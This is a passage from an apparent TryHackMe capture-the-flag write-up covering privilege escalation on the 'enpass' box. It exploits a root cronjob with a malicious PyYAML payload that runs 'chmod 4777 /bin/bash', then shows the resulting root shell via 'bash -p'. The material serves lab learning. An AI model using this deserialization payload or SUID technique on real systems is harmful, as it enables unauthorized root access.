 
## Running PSPY on the box
![15](/assets/images/thm/enpass/15.png)
We can notice few things on this image. There is a cronjob which is being executed by root every minute. It executes the script `/opt/scripts/file.py`, removes the file `/tmp/file.yml`, changes the owner of the file `/tmp/file.yml` and again executes and deletes it. It's kind of strange to be honest. But what we can do is make a file with our malicious payload and run a infinite loop which copies this malicious payload to `/tmp/file.yml`.

## Content of shell.yml
```yml
!!python/object/apply:os.system ["chmod 4777 /bin/bash"]
```
We just set the SUID bit on the `/bin/bash` binary.

## Executing infinite loop and watching the binary using watch
![16](/assets/images/thm/enpass/16.png)
And after a minute or so, the bash binary has SUID bit set on it.

## Getting a root shell
```console
imsau@enpass:/tmp$ /bin/bash -p
bash-4.3# id
uid=1002(imsau) gid=1002(imsau) euid=0(root) groups=1002(imsau)
bash-4.3# 
```
And we are root.

## Reading Flags
![17](/assets/images/thm/enpass/17.png)



Having trouble with the writeup and need help, do not hesitate to ping me on [twitter](https://twitter.com/shishir37768334). 